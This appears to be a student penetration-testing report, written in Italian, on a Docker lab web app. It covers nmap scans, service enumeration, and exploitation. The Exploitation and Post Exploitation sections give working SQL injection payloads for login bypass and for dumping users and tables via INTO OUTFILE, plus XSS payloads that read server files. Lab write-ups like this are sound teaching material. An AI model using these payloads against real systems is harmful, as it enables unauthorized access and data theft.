\documentclass[12pt]{article}
\usepackage{amsmath}
\usepackage{amssymb}
\usepackage{graphicx}
\usepackage{hyperref}
\usepackage[latin1]{inputenc}
\usepackage{listings}
\usepackage{xcolor}

\title{PENETRATION TESTING 2024}
\author{Simone Cappabianca - Mat: 5423306 \\  simone.cappabianca@edu.unifi.it}
\date{Febbraio 8, 2025}

\setlength{\parindent}{4em}
\setlength{\parskip}{1em}

\begin{document}
\maketitle
\newpage

\tableofcontents
\newpage

\section{Information gathering}
Per il caso specifico non \'{e} necessario effettuare nessuna raccolta 
d'informazioni avendo a disposizione solo immagine docker. \\
Al container generato dall'immagine viene allocato l'indirizzo IP 172.19.0.3.

\section{Network Scanning}
Ipotiziamo il coitainer non \'{e} nella nostra stessa rete locale.
\begin{itemize}
    \item \textbf{Scansione di Livello 3 (Scansione ICMP/Ping)}:
    \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap -sn 172.19.0.3 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 17:37 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.00021s latency).
MAC Address: 02:42:AC:13:00:03 (Unknown)
Nmap done: 1 IP address (1 host up) scanned in 0.10 seconds
    \end{lstlisting}
    \item \textbf{Scansione di Livello 4 (Scansione TCP e UDP)}:
    \begin{itemize}
        \item Scansione TCP SYN:
        \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap -p- -sS 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 15:44 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.0000030s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.49 seconds
        \end{lstlisting}
        \item Scasione UDP: \dots
        \begin{lstlisting}[label=shell, basicstyle=\tiny]
nmap -p- -sU -top-ports 100 -min-rate 1000 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 16:48 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.000036s latency).
Not shown: 96 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
69/udp    closed tftp
443/udp   closed https
1434/udp  closed ms-sql-m
49156/udp closed unknown
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.46 seconds
        \end{lstlisting}
        \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap -p- -sU -min-rate 1000 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 17:09 UTC
Warning: 172.19.0.3 giving up on port because retransmission cap hit (10).
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.00011s latency).
All 65535 scanned ports on penetrated.test_network (172.19.0.3) are in ignored states.
Not shown: 64811 open|filtered udp ports (no-response), 724 closed udp ports (port-unreach)
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 718.97 seconds
        \end{lstlisting}
    \end{itemize}
    \item \textbf{Strumenti utilizzati}:
    \begin{itemize}
        \item Nmap
    \end{itemize}
    \item \textbf{Risultati}: Il container risponde solamente sulla porta 80.
\end{itemize} 

\section{Enumeration}
    \begin{itemize}
        \item \textbf{Banner Grabbing}:
        \begin{itemize}
            \item \textbf{Banner Grabbing - OS}:
            \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap -O -p 80 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 18:22 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.00015s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
            \end{lstlisting}
            \item \textbf{Banner Grabbing - Web server}:
            \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap -sV -p 80 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-08 18:21 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.000045s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 02:42:AC:13:00:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds            
            \end{lstlisting}
            \begin{lstlisting}[label=shell, basicstyle=\tiny]
Trying 172.19.0.3...
Connected to 172.19.0.3.
Escape character is '^]'.
GET / HTTP/1.1
HOST: 172.19.0.3

HTTP/1.1 200 OK
Date: Wed, 19 Feb 2025 15:01:38 GMT
Server: Apache/2.4.38 (Debian)
X-Powered-By: PHP/7.2.34
Vary: Accept-Encoding
Content-Length: 903
Content-Type: text/html; charset=UTF-8

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Michelangelo</title>
    <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/css/bootstrap.css">
    <style type="text/css">
        body{ font: 14px sans-serif; text-align: center; }
    </style>
</head>
    <body style="background-color:#f3f3f3;">
    <div>
        <div class="page-header">
        <img src="/mic.png" alt="Michelangelo" width="10%">
        <h1>
            Michelangelo
        </h1>
        </div>
        <div>
        <div>
            <p>
                <h2>We are a peaceful, honest car dealer</h2>
            </p>
            <p>
                <a href="./login.php" class="btn btn-primary">Enter your private area</a>
                <a href="./catalog.php" class="btn btn-primary">Check our vehicle catalog</a>
            </p>
        </div>
        </div>
    </div>
    </body>
</html>
Connection closed by foreign host.
            \end{lstlisting}
            \item \textbf{UserDir Enumeration}:
            \begin{lstlisting}[label=shell, basicstyle=\tiny]
# nmap --script=http-userdir-enum -p 80 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 15:28 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.000039s latency).

PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:03 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.18 seconds

# nmap -sV --script=http-php-version -p 80 172.19.0.3
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-19 18:38 UTC
Nmap scan report for penetrated.test_network (172.19.0.3)
Host is up (0.000035s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-php-version: Version from header x-powered-by: PHP/7.2.34
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 02:42:AC:13:00:03 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.38 seconds
            \end{lstlisting} 
            \item \textbf{Metasploit}: 
            \begin{lstlisting}[label=shell, basicstyle=\tiny]

            \end{lstlisting}  
        \end{itemize}

        \item \textbf{Strumenti utilizzati}:
        \begin{itemize}
            \item Nmap
            \item Telnet
            \item Metasploit
        \end{itemize}
        \item \textbf{Risultati}:
        \begin{itemize}
            \item \textbf{OS}: Linux 4.15 - 5.8
            \item \textbf{WEB Server}: Apache/2.4.38 (Debian)
            \item \textbf{PHP}: PHP/7.2.34
            \item \textbf{UserDir}: Sul server web il modulo \textit{mod\_userdir} non \'{e} attivo
        \end{itemize}
    \end{itemize}

\section{Vulnerability Assessment}

Procedura di login soggetta a possibile SQLi. Infatto inserendo un "'" (apice singolo)
nel campo \textbf{Username} e un qualsiasi valore nel campo \textbf{Password} restituisce 
il seguante messaggio: \\
\textbf{Notice:} Invalid query: You have an error in your SQL syntax; check the manual that 
corresponds to your MariaDB server version for the right syntax to use near 
'c9c35cf409344312146fa7546a94d1a6'' at line 1 in /var/www/html/login.php on line 63

La procedura di password recovery non esegue un corretto controllo dei dati ingresso 
del campo \textbf{Emial address} ed \`{e} soggetta a XSS.

\section{Exploitation}
    La SQL Injection nella procedura di login \`{e} possibile utilizzando "'" 
    (apice singolo), in questo modo \`{e} possibile modificare la query che viene 
    eseguita per il controllo delle credenziali.\\ 
    Possibili esempio PoC:\\
    \begin{enumerate}
        \item \textbf{username}: \texttt{' UNION SELECT null, null, user() \#} \\
        \textbf{password}: \texttt{valore qualsiasi} \\
        \item \textbf{username}: \texttt{' OR null is null limit 1 \#} \\
        \textbf{password}: \texttt{valore qualsiasi} \\
    \end{enumerate}
    
    Il XXS nella procedura di password recovery \`{e} possibile utilizzando i tags
    \texttt{<SCRIPT>} o \texttt{<IMG>} (i nome dei tags devo essere MAIUSCOLI). \\
    Possibili esempi di PoC:
    \begin{enumerate}
        \item \textbf{Email address}: \texttt{<SCRIPT>alert('Hello')</SCRIPT>}
        \item \textbf{Email address}: \texttt{<IMG SRC="pic/1.jpg">}
    \end{enumerate}

\section{Post Exploitation}

Qui di seguito alcuni script/query che posso permettere nella fase di \textbf{Post Exploitation}
sia il \textbf{Mantenimento dell'Accesso} che la \textbf{Raccolta Dati}.

\begin{enumerate}
    \item Script per visuaizzare un file del server:\\
    \texttt{<SCRIPT>function test()\{fetch('TEST.txt').\\
    then(response => response.text()).then(data => alert(data))\}test(); \\
    </SCRIPT>}
    \item SQLi per recuperare l'elenco degli users/customers:\\
    \texttt{' or null is null INTO OUTFILE '/var/www/html/USERS.txt' \#}
    \item SQLi per recuperare l'elenco delle tabelle del db: \\
    \texttt{' or null is not null UNION SELECT null, TABLE\_NAME, TABLE\_SCHEMA \\ 
    FROM information\_schema.TABLES WHERE TABLE\_SCHEMA not like \\
    'information\_schema' AND TABLE\_SCHEMA not like 'mysql' AND TABLE\_SCHEMA \\
    not like 'performance\_schema' INTO OUTFILE '/var/www/html/TABLES.txt' \#}
\end{enumerate}

Eseguendo prima gli script di SQLi (2 e 3) nella pagina di login e successivamente 
lo script di XSS (1) \`{e} possibile visualizzare il contenuto dei file USERS.txt 
e TABLES.txt.\\

\begin{figure}[h]
    
\includegraphics[scale=0.8]{USERS.png}
    \caption{Elenco users/customers}
\end{figure}

\begin{figure}[h]
    
\includegraphics[scale=0.8]{TABLES.png}
    \caption{Elenco tabelle}
\end{figure}

\end{document}